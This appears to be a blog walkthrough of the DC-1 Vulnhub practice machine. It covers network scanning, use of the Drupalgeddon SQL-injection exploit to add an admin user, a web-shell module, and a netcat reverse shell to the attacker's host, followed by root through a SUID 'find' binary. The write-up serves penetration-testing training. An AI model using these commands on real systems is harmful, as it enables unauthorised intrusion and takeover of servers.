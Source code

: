 ```yaml
---
layout: post
title: DC 1  Walkthrough 
description: >
  ***DC *** series was designed to be a challenge for beginners,but just how easy it is will depend on your skills and knowledge and your ability to learn. It is designed by ***DCAU***. There are multiple ways of gaining root,however,they have include some flags which contain clues for beginners.
---
```

# DC 1 from (DC series)

> Level : Beginners
> Hosted on Vulnhub , [DC 1]([https://www.vulnhub.com/entry/dc-1,292/](https://www.vulnhub.com/entry/dc-1,292/))
> Data release: 28 Feb 2019

# Start 

>### Box are not showing any ip address so let's start with scanning the network to find out target. 

1. netdiscover.
	![netdiscover](https://i.ibb.co/9Gv35LX/dc-pic-1.png) Ours target is --> 192.168.0.119 
	> Our box is running on virtual box so it's mac vendor is **PCS Systemtechnik**

## Scanning
next step to scan the target and find out the operating system running service and open port on the server. For scanning we used ***nmap*** .

>## nmap -sV -sC -oA scan1 192.168.0.119
![nmap Scan](https://i.ibb.co/zQRDGmp/dc1.png) 

it's a *'noisy'* nmap scan. **-sV** for  open ports to determine service/version info. **-sC** equivalent to ***--script=default*** .it will run some default **nmap** script against the target host.


**Nmap** output shows us that there are 3 ports open. 22(SSH),80(HTTP),111(RPC).nmap also find the **robots.txt** and site is running **Drupal CMS (Drupal 7 )**.Open the IP address in the browser to see how the web page look like.

![drupal webpage](https://i.ibb.co/xCnPVGJ/dc2.png)

## Hidden directory search
**Nmap** find the robots.txt file in that file we see some on hidden directory.but i try to brute force the web directory with **gobuster**
>## gobuster dir -u http://192.168.0.119/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o dirScan
![dirscan](https://i.ibb.co/R2D79X6/dc3.png)



## Drupal
After a bit poking around,I search in google for brupal scan and try to find out some tools and any interesting about drupal.I find a tool in online called **"Droopescan"** .

![droopescan](https://i.ibb.co/tsC1NRm/droopscan.png)

Interesting! Most of it doesn't mean much to me,I'm not a Drupal pro,but something in the back of my mind grabs my attention when I see the Drupal versions again. So search in **searchsploit** tools.This is offline database of exploit-db.com.
>## searchsploit Drupal 7

![searchsploit](https://i.ibb.co/M56XvwG/dc5.png)

**Drupalgeddon** has **SQL Injection** that can **(add Admin User)** so i download the exploit  with this command.
>## searchsploit -m exploits/php/webapps/34984.py

![exploit](https://i.ibb.co/Gk67tPz/dc6.png)

Running the exploit with python we can see it exploit need **-t for target url** ,**-u useranem** and **-p password**.I give the target url ,username and password.
![runiing exploit](https://i.ibb.co/KjMQmCn/dc7.png)

#### Using that credentials to login  as administrator.
![username](https://i.ibb.co/sCNDD4N/dc8.png)

Now we need a Shell for get inside of that server. So I search drupal shell in google and i found a module that give  a web shell.

![google search](https://i.ibb.co/HFrgKDJ/dc-shell.png)

 Find out that  module can be install from url. So i copy the module url.
 
![google download](https://i.ibb.co/bLw6Xz3/dc-shell-plg.png)

![install module](https://i.ibb.co/4RfKb0R/scre-install.png)

To use that shell module.We need to active the module.

![shell active](https://i.ibb.co/2MKzFXt/dc-shell-active.png)

After Search the **"Shell"** url ,find in Navigation menu.After visiting it.Now we can run commands on the back-end server . So, I decided to get a reverse shell to my machine using "nc" utility.

![web shell](https://i.ibb.co/5FRx5zs/dc-shell-in-website.png)


For the native shell i use my favorite website **"http://pentestmonkey.net"** 
>``` nc -e /bin/sh 192.168.0.109 9001``` 

![webshell](https://i.ibb.co/mvDhSJD/webshell.png)

![Native shell](https://i.ibb.co/g7289jP/nativeshwll.png)
![shell pty](https://i.ibb.co/7jkzwX1/pyt-shell.png)

## Post-exploitation

Now, I start checking for rooting the server. There are many techniques to do That.One of them is searching for the binaries owned by the root user and has "suid", which is a feature is a feature is Linux that allows users to execute files with the permissions of a specific user. Find search for files that has we run a command.

> ``` find / -perm /4000 2>/dev/null ```

![permission](https://i.ibb.co/w60C4ds/find-permmisstion.png)

Now we can get root user to exploit the find with this command

>``` find . -exec '/bin/sh' \; ```

![root]()

Hope that you learn something new by reading this post.
